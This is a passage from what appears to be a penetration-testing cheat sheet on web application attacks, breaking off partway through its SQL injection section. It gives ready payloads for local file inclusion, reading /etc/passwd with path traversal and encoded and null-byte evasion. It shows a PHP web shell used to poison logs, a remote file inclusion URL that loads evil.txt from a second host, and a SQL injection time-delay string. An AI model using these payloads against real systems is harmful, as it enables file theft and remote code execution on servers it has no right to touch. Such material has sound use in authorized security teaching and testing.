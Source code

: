     *   LFI - Download passwords file  
        _http://$ip/index.php?page=/etc/passwd_  
        _http://$ip/index.php?file=../../../../etc/passwd_

    *   LFI - Download passwords file with filter evasion  
        _http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd_

    *   Local File Inclusion - In versions of PHP below 5.3 we can terminate with null byte  
        GET /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    *   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

    *   For a Remote File Inclusion look for php code that is not sanitized and passed to the PHP include function and the php.ini file must be configured to allow remote files

        _/etc/php5/cgi/php.ini_ - "allow_url_fopen" and "allow_url_include" both set to "on"

        `include($_REQUEST["file"].".php");`

    *   Remote File Inclusion

        `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt`

        `<?php echo shell\_exec("ipconfig");?>`

*   ## [](#database-vulnerabilities)Database Vulnerabilities

    *   Playing with SQL Syntax A great tool I have found for playing with SQL Syntax for a variety of database types (MSSQL Server, MySql, PostGreSql, Oracle) is SQL Fiddle:

    [http://sqlfiddle.com](http://web.archive.org/web/20171113221652/http://sqlfiddle.com/)

    Another site is rextester.com:

    [http://rextester.com/l/mysql_online_compiler](http://web.archive.org/web/20171113221652/http://rextester.com/l/mysql_online_compiler)

    *   Detecting SQL Injection Vulnerabilities.

        Most modern automated scanner tools use time delay techniques to detect SQL injection vulnerabilities. This method can tell you if a SQL injection vulnerability is present even if it is a "blind" sql injection vulnerabilit that does not provide any data back. You know your SQL injection is working when the server takes a LOooooong time to respond. I have added a line comment at the end of each injection statement just in case there is additional SQL code after the injection point.

        *   **MSSQL Server SQL Injection Time Delay Detection:** Add a 30 second delay to a MSSQL Server Query

            *   _Original Query_

                `SELECT * FROM products WHERE name='Test';`

            *   _Injection Value_

                `'; WAITFOR DELAY '00:00:30'; --`

            *   _Resulting Query_

                `SELECT * FROM products WHERE name='Test'; WAITFOR DELAY '00:00:30'; --`

        *   **MySQL Injection Time Delay Detection:** Add a 30 second delay to a MySQL Query
